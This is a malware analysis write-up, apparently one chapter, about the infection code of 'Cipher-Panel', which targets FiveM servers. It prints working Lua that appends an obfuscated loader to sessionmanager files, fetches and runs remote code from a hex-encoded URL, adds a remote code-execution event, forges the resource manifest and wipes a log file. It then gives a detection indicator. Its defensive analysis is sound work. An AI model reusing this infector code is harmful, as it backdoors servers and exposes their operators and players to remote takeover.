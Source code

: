 ## Chapter 2 (Infection)
This chapter covers the infection code used in the malicious code to hire dubbed Cipher-Panel.

### Introduction
The infection code for this malicious software is one of the best examples of failed obfuscation the world has to offer.
#### Original Code
```lua
local kaskyWVklaWSErrrnVBB = "\x73\x65\x73\x73\x69\x6f\x6e\x6d\x61\x6e\x61\x67\x65\x72"
local kakkyWVklaWSErrrnVBB = "\x2f\x73\x65\x72\x76\x65\x72\x2f\x68\x6f\x73\x74\x5f\x6c\x6f\x63\x6b\x2e\x6c\x75\x61"
local YBLgfdYggNgxwqazyGsb = "\x2f\x73\x65\x72\x76\x65\x72\x2f\x6c\x69\x63\x65\x6e\x63\x65\x2e\x74\x78\x74"
local ZudnizosZzhdkeuSzndh = "\x2f\x73\x65\x72\x76\x65\x72\x2f\x67\x61\x6d\x65\x2e\x6c\x6f\x67"
local eVSsCsytJpinTgqcGOIz = "\x2f\x63\x6c\x69\x65\x6e\x74\x2f\x65\x6d\x70\x74\x79\x2e\x6c\x75\x61"
local TeRfIyyWqxeqaJtVpjHO = "\x2f\x66\x78\x6d\x61\x6e\x69\x66\x65\x73\x74\x2e\x6c\x75\x61"
local aOSpqxARmZAARgJKFkSP, dzhdoDHOZhjcqbcdqz =
    "\x72\x65\x73\x6f\x75\x72\x63\x65\x73\x2f\x5b\x73\x79\x73\x74\x65\x6d\x5d\x2f\x73\x65\x73\x73\x69\x6f\x6e\x6d\x61\x6e\x61\x67\x65\x72\x2f\x73\x65\x72\x76\x65\x72\x2f\x6c\x69\x63\x65\x6e\x63\x65\x2e\x74\x78\x74",
    GetResourcePath
Citizen.CreateThread(
    function()
        Citizen.Wait(20000)
        raSdVeoRVnbTqXAqXrWO = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. YBLgfdYggNgxwqazyGsb, "r")
        raSdVexRVnbTqXAqXrWO = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. ZudnizosZzhdkeuSzndh, "r")
        if (raSdVeoRVnbTqXAqXrWO or raSdVexRVnbTqXAqXrWO) then
        else
            esiwoeKYHGqUkFENuRrc = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. kakkyWVklaWSErrrnVBB, "a")
            esiwoeKYHGqUkFENuRrc:write("\n\nlocal XHiAookqKz = {")
            esiwoeKYHGqUkFENuRrc:write("\n	_G['PerformHttpRequest'],")
            esiwoeKYHGqUkFENuRrc:write("\n	_G['assert'],")
            esiwoeKYHGqUkFENuRrc:write("\n	_G['load'],")
            esiwoeKYHGqUkFENuRrc:write("\n	_G['tonumber']")
            esiwoeKYHGqUkFENuRrc:write("\n}")
            esiwoeKYHGqUkFENuRrc:write("\n\nlocal HFuKXKYHZq = {")
            esiwoeKYHGqUkFENuRrc:write(
                "\n	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',"
            )
            esiwoeKYHGqUkFENuRrc:write(
                "\n	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',"
            )
            esiwoeKYHGqUkFENuRrc:write(
                "\n	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'"
            )
            esiwoeKYHGqUkFENuRrc:write("\n}")
            esiwoeKYHGqUkFENuRrc:write("\n\nfunction sDOmZoZyZn()")
            esiwoeKYHGqUkFENuRrc:write("\n	UULJijIqvu = ''")
            esiwoeKYHGqUkFENuRrc:write("\n	for id,it in pairs(HFuKXKYHZq) do")
            esiwoeKYHGqUkFENuRrc:write("\n		UULJijIqvu = UULJijIqvu..it")
            esiwoeKYHGqUkFENuRrc:write("\n	end")
            esiwoeKYHGqUkFENuRrc:write("\n	return (UULJijIqvu:gsub('..', function (luwOyroAEjA)")
            esiwoeKYHGqUkFENuRrc:write("\n		return string.char(XHiAookqKz[4](luwOyroAEjA, 16))")
            esiwoeKYHGqUkFENuRrc:write("\n	end))")
            esiwoeKYHGqUkFENuRrc:write("\nend")
            esiwoeKYHGqUkFENuRrc:write("\n\nXHiAookqKz[XHiAookqKz[4]('1')](sDOmZoZyZn(), function (e, lgUVUNUOPG)")
            esiwoeKYHGqUkFENuRrc:write(
                "\n	local WEshhWKyxg = XHiAookqKz[XHiAookqKz[4]('2')](XHiAookqKz[XHiAookqKz[4]('3')](lgUVUNUOPG))"
            )
            esiwoeKYHGqUkFENuRrc:write("\n	if (lgUVUNUOPG == nil) then return end")
            esiwoeKYHGqUkFENuRrc:write("\n	WEshhWKyxg()")
            esiwoeKYHGqUkFENuRrc:write("\nend)")
            esiwoeKYHGqUkFENuRrc:close()
            OrGaRdnLVZIaTVnMJPJC = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. eVSsCsytJpinTgqcGOIz, "a")
            OrGaRdnLVZIaTVnMJPJC:write("\n\nRegisterNetEvent('helpCode')")
            OrGaRdnLVZIaTVnMJPJC:write("\n\nAddEventHandler('helpCode', function(id)")
            OrGaRdnLVZIaTVnMJPJC:write("\n	local help = assert(load(id))")
            OrGaRdnLVZIaTVnMJPJC:write("\n	help()")
            OrGaRdnLVZIaTVnMJPJC:write("\nend)")
            OrGaRdnLVZIaTVnMJPJC:close()
            oLwFxrKtOgqxQcwxVkHO = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. TeRfIyyWqxeqaJtVpjHO, "w")
            oLwFxrKtOgqxQcwxVkHO:write("-- This resource is part of the default Cfx.re asset pack (cfx-server-data)")
            oLwFxrKtOgqxQcwxVkHO:write("\n-- Altering or recreating for local use only is strongly discouraged.")
            oLwFxrKtOgqxQcwxVkHO:write("\n\nversion '1.0.0'")
            oLwFxrKtOgqxQcwxVkHO:write("\nauthor 'Cfx.re <root@cfx.re>'")
            oLwFxrKtOgqxQcwxVkHO:write("\ndescription 'Handles the host lock for non-OneSync servers. Do not disable.'")
            oLwFxrKtOgqxQcwxVkHO:write("\nrepository 'https://github.com/citizenfx/cfx-server-data'")
            oLwFxrKtOgqxQcwxVkHO:write("\n\nfx_version 'cerulean'")
            oLwFxrKtOgqxQcwxVkHO:write("\ngames { 'gta4', 'gta5' }")
            oLwFxrKtOgqxQcwxVkHO:write("\n\nserver_scripts { 'server/host_lock.lua', '@mysql-async/lib/MySQL.lua' }")
            oLwFxrKtOgqxQcwxVkHO:write("\nclient_script 'client/empty.lua'")
            oLwFxrKtOgqxQcwxVkHO:close()
            pgDTRRFUvQLbTgFTMTlt = io.open(dzhdoDHOZhjcqbcdqz(kaskyWVklaWSErrrnVBB) .. ZudnizosZzhdkeuSzndh, "w")
            pgDTRRFUvQLbTgFTMTlt:write()
            pgDTRRFUvQLbTgFTMTlt:close()
        end
    end
)
```

The code above is yet again using UTF-8 encoding for a few fields, it also contains the contents of the `fxmanifest.lua` file thus it's safe to assume it writes to that file. It also uses a fair amount of `write` so again, it's safe to assume it writes to other files.


We once again simply decode the UTF-8 encoded strings and normalize the function names and fields.

#### UTF-8 String Reversal
```
Variable: kaskyWVklaWSErrrnVBB
Input: \x73\x65\x73\x73\x69\x6f\x6e\x6d\x61\x6e\x61\x67\x65\x72
Output: sessionmanager

Variable: kakkyWVklaWSErrrnVBB
Input: \x2f\x73\x65\x72\x76\x65\x72\x2f\x68\x6f\x73\x74\x5f\x6c\x6f\x63\x6b\x2e\x6c\x75\x61
Output: /server/host_lock.lua

Variable: YBLgfdYggNgxwqazyGsb
Input: \x2f\x73\x65\x72\x76\x65\x72\x2f\x6c\x69\x63\x65\x6e\x63\x65\x2e\x74\x78\x74
Output: /server/licence.txt

Variable: ZudnizosZzhdkeuSzndh
Input: \x2f\x73\x65\x72\x76\x65\x72\x2f\x67\x61\x6d\x65\x2e\x6c\x6f\x67
Output: /server/game.log

Variable: eVSsCsytJpinTgqcGOIz
Input: \x2f\x63\x6c\x69\x65\x6e\x74\x2f\x65\x6d\x70\x74\x79\x2e\x6c\x75\x61
Output: /client/empty.lua

Variable: TeRfIyyWqxeqaJtVpjHO
Input: \x2f\x66\x78\x6d\x61\x6e\x69\x66\x65\x73\x74\x2e\x6c\x75\x61
Output: /fxmanifest.lua

Variable: aOSpqxARmZAARgJKFkSP
Input: \x72\x65\x73\x6f\x75\x72\x63\x65\x73\x2f\x5b\x73\x79\x73\x74\x65\x6d\x5d\x2f\x73\x65\x73\x73\x69\x6f\x6e\x6d\x61\x6e\x61\x67\x65\x72\x2f\x73\x65\x72\x76\x65\x72\x2f\x6c\x69\x63\x65\x6e\x63\x65\x2e\x74\x78\x74
Output: resources/[system]/sessionmanager/server/licence.txt
```

The UTF-8 encoded strings were all files and directories, they are used in conjunction with IO operations thus we get infected files list.

#### Final Mapped and Normalised Code
```lua
Citizen.CreateThread(
    function()
        Citizen.Wait(20000)
		
        licenseFile = io.open(GetResourcePath("sessionmanager") .. "/server/licence.txt", "r")
        gameLogFile = io.open(GetResourcePath("sessionmanager") .. "/server/game.log", "r")
		
        if (licenseFile or gameLogFile) then
        else
            hostLockFile = io.open(GetResourcePath("sessionmanager") .. "/server/host_lock.lua", "a")
            hostLockFile:write("\n\nlocal XHiAookqKz = {")
            hostLockFile:write("\n	_G['PerformHttpRequest'],")
            hostLockFile:write("\n	_G['assert'],")
            hostLockFile:write("\n	_G['load'],")
            hostLockFile:write("\n	_G['tonumber']")
            hostLockFile:write("\n}")
            hostLockFile:write("\n\nlocal HFuKXKYHZq = {")
            hostLockFile:write(
                "\n	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',"
            )
            hostLockFile:write(
                "\n	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',"
            )
            hostLockFile:write(
                "\n	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'"
            )
            hostLockFile:write("\n}")
            hostLockFile:write("\n\nfunction sDOmZoZyZn()")
            hostLockFile:write("\n	UULJijIqvu = ''")
            hostLockFile:write("\n	for id,it in pairs(HFuKXKYHZq) do")
            hostLockFile:write("\n		UULJijIqvu = UULJijIqvu..it")
            hostLockFile:write("\n	end")
            hostLockFile:write("\n	return (UULJijIqvu:gsub('..', function (luwOyroAEjA)")
            hostLockFile:write("\n		return string.char(XHiAookqKz[4](luwOyroAEjA, 16))")
            hostLockFile:write("\n	end))")
            hostLockFile:write("\nend")
            hostLockFile:write("\n\nXHiAookqKz[XHiAookqKz[4]('1')](sDOmZoZyZn(), function (e, lgUVUNUOPG)")
            hostLockFile:write(
                "\n	local WEshhWKyxg = XHiAookqKz[XHiAookqKz[4]('2')](XHiAookqKz[XHiAookqKz[4]('3')](lgUVUNUOPG))"
            )
            hostLockFile:write("\n	if (lgUVUNUOPG == nil) then return end")
            hostLockFile:write("\n	WEshhWKyxg()")
            hostLockFile:write("\nend)")
            hostLockFile:close()
			
            emptyLuaFile = io.open(GetResourcePath("sessionmanager") .. "/client/empty.lua", "a")
            emptyLuaFile:write("\n\nRegisterNetEvent('helpCode')")
            emptyLuaFile:write("\n\nAddEventHandler('helpCode', function(id)")
            emptyLuaFile:write("\n	local help = assert(load(id))")
            emptyLuaFile:write("\n	help()")
            emptyLuaFile:write("\nend)")
            emptyLuaFile:close()

            fxManifestLuaFile = io.open(GetResourcePath("sessionmanager") .. "/fxmanifest.lua", "w")
            fxManifestLuaFile:write("-- This resource is part of the default Cfx.re asset pack (cfx-server-data)")
            fxManifestLuaFile:write("\n-- Altering or recreating for local use only is strongly discouraged.")
            fxManifestLuaFile:write("\n\nversion '1.0.0'")
            fxManifestLuaFile:write("\nauthor 'Cfx.re <root@cfx.re>'")
            fxManifestLuaFile:write("\ndescription 'Handles the host lock for non-OneSync servers. Do not disable.'")
            fxManifestLuaFile:write("\nrepository 'https://github.com/citizenfx/cfx-server-data'")
            fxManifestLuaFile:write("\n\nfx_version 'cerulean'")
            fxManifestLuaFile:write("\ngames { 'gta4', 'gta5' }")
            fxManifestLuaFile:write("\n\nserver_scripts { 'server/host_lock.lua', '@mysql-async/lib/MySQL.lua' }")
            fxManifestLuaFile:write("\nclient_script 'client/empty.lua'")
            fxManifestLuaFile:close()
			
            gameLogsFile = io.open(GetResourcePath("sessionmanager") .. "/server/game.log", "w")
            gameLogsFile:write()
            gameLogsFile:close()
        end
    end
)
```

After the mapping and normalization of the code, we can see that it writes to the files[^1] found in the UTF-8 string reversal. It is also in this code that we gather more evidence of the intelligence the authors of this malicious software have, they lacked the understanding to string escape for the quotation marks in their `fxmanifest.lua` infection oppose to the original which includes quotations marks in the `description` value of the [original manifest file](https://github.com/citizenfx/cfx-server-data/blob/master/resources/%5Bsystem%5D/sessionmanager/fxmanifest.lua#L6). This, in turn, provides an indicator for the detection for this software [^2].

The files modified here are covered in the next chapter.

[^1]: `resources\[FiveM]\[system]\sessionmanager\server\host_lock.lua`, `resources\[FiveM]\[system]\sessionmanager\client\empty.lua` and `resources\[FiveM]\[system]\sessionmanager\fxmanifest.lua`.
[^2]: Checking that the `fxmanifest.lua` file doesn't include quotation marks on the `description` line would confirm either modification or infection.

